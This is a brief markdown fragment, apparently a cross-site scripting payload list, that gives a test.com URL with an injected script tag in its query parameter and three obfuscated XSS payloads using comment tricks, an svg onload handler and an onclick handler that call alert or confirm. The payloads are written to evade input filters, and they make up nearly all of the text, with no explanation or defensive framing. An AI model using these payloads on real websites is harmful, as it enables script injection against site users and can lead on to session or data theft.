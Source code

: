 **URL:**<br/>[http://test.com/pages/jobs.asp?did=123456"><\<script/**/>/*test*/alert(/xss/)/*123*/</script>](http://test.com/pages/jobs.asp?did=123456"><\<script/**/>/*test*/alert(/xss/)/*123*/</script>)

**Payload:**<br/>`"><\<script/**/>/*test*/alert(/xss/)/*123*/</script>`


**Payload:**<br/>`"/**/></*svg*/><svg/*test*/onload=alert(/xss/)/*111*/>`


**Payload:**<br/> `<d3"<"/onclick="1>[confirm``]"<">z `

